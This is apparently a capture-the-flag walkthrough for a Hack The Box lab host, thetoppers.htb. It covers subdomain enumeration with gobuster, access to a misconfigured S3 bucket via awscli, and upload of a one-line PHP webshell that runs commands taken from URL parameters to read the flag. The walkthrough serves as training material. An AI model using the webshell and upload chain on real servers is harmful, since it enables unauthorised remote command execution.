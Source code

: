 \documentclass[a4paper,10pt]{article}
\begin{document}
\begin{bash}
gobuster vhost -w subdomains-top1million-5000.txt -u thetoppers.htb --append-domain
\end{bash}
The option \texttt{--append-domain} is important. Otherwise, the wordlist file must contain the full domains.
Which sub-domain is discovered during further enumeration? \texttt{s3.thetoppers.htb}.

Which service is running on the discovered sub-domain? amazon s3.
\begin{bash}
echo "10.129.193.208    s3.thetoppers.htb" | sudo tee -a /etc/hosts
\end{bash}

Which command line utility can be used to interact with the service running on the discovered sub-domain? \texttt{awscli}.

Which command is used to set up the AWS CLI installation? \texttt{aws configure}.

What is the command used by the above utility to list all of the S3 buckets? \texttt{aws s3 ls}.

This server is configured to run files written in what web scripting language? \texttt{php}.
\begin{bash}
pacman -Ss amazon
sudo pacman -S aws-cli
aws configure
\end{bash}

Use fake values for the AWS account, since it does not matter.
\begin{txt}
AWS Access Key ID [None]: aSsad
AWS Secret Access Key [None]: adsasd
Default region name [None]: asdijigj
Default output format [None]: idjoa
\end{txt}

\begin{bash}
aws s3 ls s3://thetoppers.htb
Could not connect to the endpoint URL: "http://s3.a.amazonaws.com/thetoppers.htb"
\end{bash}

Modify the endpoint URL. Upload a simple PHP webshell \texttt{shell.php}.
\begin{session}
$ aws s3 ls --endpoint-url=http://s3.thetoppers.htb s3://thetoppers.htb
$ echo "<?php system($_GET['cmd']); ?>" > shell.php
$ aws s3 cp --endpoint-url=http://s3.thetoppers.htb shell.php s3://thetoppers.htb
\end{session}

Next we go to the website with URL parameters:
\begin{txt}
http://thetoppers.htb/shell.php?cmd=ls
images index.php shell.php
http://thetoppers.htb/shell.php?cmd=ls ..
flag.txt html
http://thetoppers.htb/shell.php?cmd=cat ../flag.txt
\end{txt}
\end{document}
